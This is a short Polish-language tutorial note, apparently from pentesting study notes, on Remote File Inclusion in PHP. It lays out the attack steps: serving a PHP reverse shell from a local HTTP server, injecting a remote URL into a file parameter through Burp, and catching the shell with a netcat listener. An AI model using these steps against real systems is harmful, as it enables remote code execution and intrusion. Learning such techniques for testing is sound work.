

Podobnie jak w Local File Inclusion, podatność wykorzystuje niepoprawną sanityzację danych wejściowych. W PHP wymaganiem jest `allow_url_fopen` na `on`.

Udany atak RFI jest poważniejszy niż LFI i może prowadzić do RCE, XSS, DoS.

Przykład ataku

Na komputerze plik z reverse shell w php, odpalamy w folderze z tym plikiem terminal i stawiamy serwer http:
`python3 -m http.server 8000`

Dalej w BURP request zamiast dostęp do pliku na serwerze, typu `/website.php?file=PLIK` dajemy `/playground.php?file=http://IP:PORT/PLIK`,

Jeszcze do reverse shell trzeba ustawić `nc -lvnp PORT`